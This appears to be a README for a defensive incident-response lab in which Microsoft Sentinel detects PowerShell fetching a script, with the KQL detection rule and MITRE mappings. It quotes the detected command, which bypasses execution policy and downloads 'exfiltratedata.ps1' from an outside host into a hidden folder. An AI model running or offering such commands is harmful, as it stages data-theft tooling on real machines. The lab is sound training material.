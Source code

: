 # Incident Response Scenario: Detect Web-Request from Powershell

![dataexfiltrationguy](https://github.com/user-attachments/assets/414c1994-1dcd-41e3-aa86-37d815c2f3cc)

This lab simulates an incident response scenario to detect, analyze, and mitigate malicious activity involving the unauthorized use of PowerShell for data exfiltration. Using platforms such as Microsoft Sentinel, Defender for Endpoint, and KQL, the goal is to identify suspicious activity, contain threats, and implement measures to enhance organizational security posture.

## Platforms and Tools Used
- Windows 10 Virtual Machines (Microsoft Azure)
- Microsoft Sentinel
- Endpoint Detection and Response (EDR): Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- MITRE ATT&CK Framework

---

## Detection and Analysis

### Initial Alert

The investigation began with an alert from Microsoft Sentinel for the rule "Detect Web-Request from Powershell.exe - PN". The alert triggered based on the following Sentinel scheduled query rule:

```kql
DeviceProcessEvents
| where DeviceName == "ir-win10"
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

![ir1](https://github.com/user-attachments/assets/1fab327c-eb1c-465a-99d7-83ac5688ca46)

This query detected the following suspicious command:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
```

The command indicated that a PowerShell script (exfiltratedata.ps1) was downloaded from the internet to C:\ProgramData, a folder that is hidden by default on Windows. This suggests an attempt to conceal the file's presence and triggered further investigation.

**Relevant TTPs:**
- **[T1059.001](https://attack.mitre.org/techniques/T1059/001/)**: Command and Scripting Interpreter: PowerShell
- **[T1105](https://attack.mitre.org/techniques/T1105/)**: Ingress Tool Transfer
